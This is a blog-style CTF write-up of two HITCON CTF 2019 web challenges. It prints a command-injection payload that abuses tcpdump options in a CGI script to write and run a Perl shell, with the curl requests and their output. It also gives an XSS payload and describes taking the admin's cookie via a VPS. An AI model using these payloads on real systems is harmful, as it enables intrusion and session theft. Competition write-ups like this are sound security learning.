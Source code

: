 ```yaml
---
layout : post
title : HITCON CTF 2019
---
```

HITCON CTF is a great hacking competition in CTF world.
I solved 2 web challanges of Orange. So here is writeup.
<h2>1. Virtual Public Network</h2>
I have read Orange's blog, I can understand that is a story of Orange when he hack VPN products.<br>
Note that <code>return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;</code> and <code># backdoor :)</code> comment, we can see that our shell will be located at <code>./tmp/</code>.<br>
But when using Orange's payload, I can not get the output as expect. So I get a problem and should be redirect output to shell with `>` and read it with _curl_
Remember that it requires a $tpl parameter to get filename of shell<br>
<code>my $tpl = CGI::param("tpl");<br>
...
    $tpl = "./tmp/" . $tpl . ".thtml";<br>
    require($tpl);</code><br>
So I can create a final payload like this: <code>-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball</code> and urlencode it<br>
<code>curl 'http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%<&tpl=dragonball </code>
    <code>$READ_FLAG$</code><br>
<code>FLAG</code><br>
<code>bin</code><br>
<code>boot</code><br>
<code>dev</code><br>
<code>etc</code><br>
<code>home</code><br>
<code>initrd.img</code><br>
<code>initrd.img.old</code><br>
<code>....</code><br>
Encode `$` to read flag <code>$READ_FLAG$</code> because `$` will be interpreted as bash variable in Perl language and I can get it like this <code>\x24</code>. Using <code>sh -c '[command]'</code> to read flag because it is a binary file.<br>
Finall payload: <code>-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball</code>
<code>curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball</code><br>
Flag: `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`<br>
Reference: https://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html
<br><h2>Bounty Pl33z</h2>
This is a XSS challenge. When I click submit bugs it will redirects to <code>https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361</code><br>
So using <code>_${alert()}`-"-(`${`_</code> to trigger XSS, so setup a VPS and redirect challenge's network to get admin's cookie (=flag)

Thank you for a great CTF!
